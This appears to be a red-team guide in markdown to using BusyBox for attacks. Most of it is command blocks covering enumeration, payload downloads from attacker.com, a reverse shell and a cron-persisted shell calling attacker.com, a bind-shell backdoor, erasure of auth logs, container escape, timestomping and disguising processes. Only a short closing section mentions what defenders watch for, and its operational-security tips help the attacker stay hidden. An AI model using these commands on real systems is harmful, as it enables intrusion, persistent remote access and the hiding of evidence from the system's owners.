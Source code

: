 # BusyBox: A Red Teamer's Swiss Army Knife

## Overview

BusyBox is a single executable that provides implementations of hundreds of common Unix utilities. Originally designed for embedded systems, 
it's a powerful tool for red teamers due to its self-contained nature and extensive functionality.

## Why Red Teamers Love BusyBox

### Single Binary Advantage
- **Portable**: One file contains 300+ utilities
- **Minimal footprint**: Often already present on systems
- **No dependencies**: Everything built-in
- **Stealth**: Legitimate system tool, less suspicious

### Common Red Team Use Cases

#### 1. System Enumeration
```bash
# Network discovery
busybox netstat -tuln
busybox ss -tuln

# Process enumeration  
busybox ps aux
busybox top

# File system exploration
busybox find / -name "*.conf" 2>/dev/null
busybox ls -la /etc/
```

#### 2. File Operations
```bash
# Data exfiltration prep
busybox tar -czf backup.tgz /important/data/
busybox base64 sensitive.txt > encoded.txt

# Log cleanup
busybox truncate -s 0 /var/log/auth.log
```

#### 3. Network Operations
```bash
# Simple web server for file transfer
busybox httpd -f -p 8080 -h /tmp/

# Network connectivity testing
busybox nc -l -p 4444
busybox wget http://attacker.com/payload
```

#### 4. System Manipulation
```bash
# User management
busybox adduser newuser
busybox passwd username

# Service management (when available)
busybox killall processname
```

## Advanced Techniques

### Environment Bypass
When standard tools are restricted:
```bash
# If 'cat' is blocked but busybox isn't
busybox cat /etc/passwd

# If 'ls' is restricted
busybox ls -la /root/
```

### Container Escapes
Busybox often present in containers:
```bash
# Mount host filesystem
busybox mount /dev/sda1 /mnt

# Process namespace inspection
busybox ps aux | grep -v container
```

### Privilege Escalation Vectors
Look for busybox SUID binaries:
```bash
find / -name busybox -perm -4000 2>/dev/null
```

### Persistence Mechanisms
```bash
# Cron job creation
echo "* * * * * /bin/busybox nc attacker.com 443 -e /bin/sh" | busybox crontab -

# Service creation (systemd environments)
busybox ln -s /bin/busybox /usr/local/bin/myservice
```

## Discovery and Enumeration

### Locate BusyBox
```bash
which busybox
find / -name busybox 2>/dev/null
locate busybox
```

### Available Commands
```bash
# List all built-in commands
busybox --help

# Test specific functionality
busybox --list | grep -E "(nc|wget|ftpget|tftp)"
```

### Version Information
```bash
busybox | head -1
```

## Red Team Scenarios

### Scenario 1: Restricted Shell Escape
```bash
# When bash/sh is limited
busybox sh

# When specific commands are aliased/blocked
busybox unalias -a
busybox env -i busybox sh
```

### Scenario 2: File Transfer
```bash
# Upload via busybox httpd
busybox httpd -f -p 8080 &
# Access via http://target:8080/

# Download files
busybox wget -O /tmp/tool http://attacker.com/tool
busybox ftpget ftp.server file.txt file.txt
```

### Scenario 3: System Backdoors
```bash
# Simple reverse shell
busybox nc attacker.com 443 -e /bin/sh

# Persistent backdoor
busybox nohup busybox nc -l -p 1234 -e /bin/sh &
```

## Defense Evasion

### Binary Camouflage
```bash
# Copy busybox to innocent name
cp /bin/busybox /tmp/.system-update
/tmp/.system-update sh
```

### Timestomp Operations
```bash
# Match file timestamps to avoid detection
busybox touch -r /bin/ls /tmp/payload
```

### Process Hiding
```bash
# Run with innocent process name
busybox --install /tmp/
/tmp/systemd &  # Actually busybox running as systemd
```

## Detection Considerations

### What SOC Teams Look For
- Unusual busybox command combinations
- Busybox network connections
- Process ancestry anomalies
- Busybox executing from temp directories

### Operational Security
- Understand environment first
- Use native system paths when possible
- Avoid obvious attack patterns
- Monitor for defensive tools detecting busybox usage


##
##
